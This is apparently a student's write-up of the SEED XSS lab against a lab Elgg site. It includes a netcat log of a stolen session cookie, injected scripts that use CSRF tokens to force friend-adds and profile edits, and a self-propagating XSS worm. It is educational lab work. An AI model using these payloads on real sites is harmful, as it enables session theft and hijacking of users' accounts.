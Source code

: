 # Cross-Site Scripting (XSS) Attack Lab

## Task 1: Posting a Malicious Message to Display an Alert Window

done :)

## Task 2: Posting a Malicious Message to Display Cookies

Upon visiting Samy's profile, an alert window with the user's `Elgg` cookie appears.

## Task 3: Stealing Cookies from the Victim's Machine

Output of `nc -lknv 5555` upon loading Samy's profile:

```
$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.15 43804
GET /?c=Elgg%3D3cdfjasb3s6eqpg4f5kmhh6unh HTTP/1.1
Host: 10.9.0.1:5555
...
Referer: http://www.seed-server.com/profile/samy
```

The client browser continues to display a loading status until the `nc` process is stopped, which might make the victim suspicious.

## Task 4: Becoming the Victim's Friend

HTTP GET request sent when Alice adds Boby as a friend:

```
http://www.seed-server.com/action/friends/add?friend=57&__elgg_ts=1747961979,1747961979&__elgg_token=MXIraps9k30e6MzW85Oq0w,MXIraps9k30e6MzW85Oq0w
```

JavaScript code to automatically add Samy as a friend:

```html
<script type="text/javascript">
window.onload = function () {
    var Ajax = null;

    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

    //Construct the HTTP request to add Samy as a friend.
    var sendurl = "http://www.seed-server.com/action/friends/add?friend=59" + ts + token;

    //Create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```

When Alice loads Samy's profile, nothing appears amiss the first time; however, she has already added Samy as a friend, and she can see this once she reloads the page.

The lines `var ts = ...` and `var token = ...` retrieve the timestamp and token fields that Elgg embeds in each page to be used as countermeasures against CSRF attacks. Actions such as adding friends require these fields to be present in the `GET` or `POST` request as evidence that it was not a cross-site request.

If we cannot switch to the Text mode of the "About Me" field, then the attack will no longer be successful, since the Editor mode escapes special characters in its contents; for example, `<script>` is turned into `&lt;script&gt;`. This means that Samy can no longer inject HTML tags or JS scripts into the "About Me" field.

## Task 5: Modifying the Victim's Profile

The HTTP POST request to modify a user's profile is directed to `http://www.seed-server.com/action/profile/edit`. The `description` parameter specifies the contents of the "About Me" field; we also need to supply the parameter `accesslevel[description]=2` to make sure that it is publicly visible.

JavaScript code to modify the victim's profile:

```html
<script type="text/javascript">
window.onload = function(){
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

    //Construct the content of your url.
    var content = "description=Samy is my hero&accesslevel[description]=2" + ts + token + userName + guid;
    var samyGuid = 59;
    var sendurl = "http://www.seed-server.com/action/profile/edit";

    if (elgg.session.user.guid != samyGuid)
    {
        //Create and send Ajax request to modify profile
        var Ajax = null;
        Ajax = new XMLHttpRequest();
        Ajax.open("POST", sendurl, true);
        Ajax.setRequestHeader(
            "Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}
</script>
```

Without the check of user ID against Samy's ID, Samy will overwrite his own "About Me" when returning to his profile page after editing it. Since we have not yet made the worm self-propagating, this immediately neutralises the attack. The overwrite happens as soon as he returns to his profile page, although it will only be visible once he reloads it once more.

## Task 6: Writing a Self-propagating XSS Worm

JavaScript code:

```html
<script id="worm" type="text/javascript">
window.onload = function(){
    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script><p>Samy is the One Hero</p>";

    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    var content = "description=" + wormCode + "&accesslevel[description]=2" + ts + token + userName + guid;

    var friendurl = "http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    var editurl = "http://www.seed-server.com/action/profile/edit";

    var samyGuid = 59;
    if (elgg.session.user.guid != samyGuid)
    {
        var Ajax = null;
        Ajax = new XMLHttpRequest();
        Ajax.open("GET", friendurl, true);
        Ajax.send();

        Ajax = new XMLHttpRequest();
        Ajax.open("POST", editurl, true);
        Ajax.setRequestHeader(
            "Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}
</script>
```